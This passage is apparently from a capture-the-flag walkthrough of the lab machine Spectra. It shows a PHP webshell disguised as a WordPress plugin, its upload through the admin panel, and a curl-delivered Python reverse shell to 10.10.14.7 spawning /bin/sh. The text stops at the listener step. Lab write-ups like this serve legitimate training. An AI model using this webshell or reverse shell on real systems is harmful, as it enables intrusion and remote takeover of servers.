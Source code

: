 I’ll create the webshell and name it `0xdf.php`:

    
    
    <?php
     /*
     Plugin Name: 0xdf Plugin
     Version: 1.0.0
     Author: 0xdf
     Author URI: wordpress.org
     License: GPL2
     */
    system($_REQUEST["0xdf"]);
    ?>
    

The comments are necessary for WordPress to accept it as a plugin. Now I’ll
add that to a zip file:

    
    
    root@kali# zip 0xdf-plug.zip 0xdf.php
      adding: 0xdf.php (deflated 11%)
    

Under Plugins -> Add New, I’ll click the Upload Plugin button and find the
zip:

![image-20210127110122700](https://0xdfimages.gitlab.io/img/image-20210127110122700.png)

When I hit Install Now, it reports success:

![image-20210127110155714](https://0xdfimages.gitlab.io/img/image-20210127110155714.png)

I don’t need to hit Activate, as installing is enough to drop the file at the
right path. Now I can use `curl` or Firefox to execute commands:

    
    
    root@kali# curl http://spectra.htb/main/wp-content/plugins/0xdf-plug/0xdf.php?0xdf=id
    uid=20143(nginx) gid=20144(nginx) groups=20144(nginx)
    

### Shell

With either webshell, getting a shell is as simple as passing it a reverse
shell. I like to use `curl` so it’s repeatable.

It doesn’t look like `nc` is on the host, so that eliminates several command
reverse shells. I got the Python one to work:

    
    
    root@kali# curl http://spectra.htb/main/wp-content/plugins/0xdf-plug/0xdf.php --data-urlencode "0xdf=python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.14.7\",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'"
    

At `nc`:
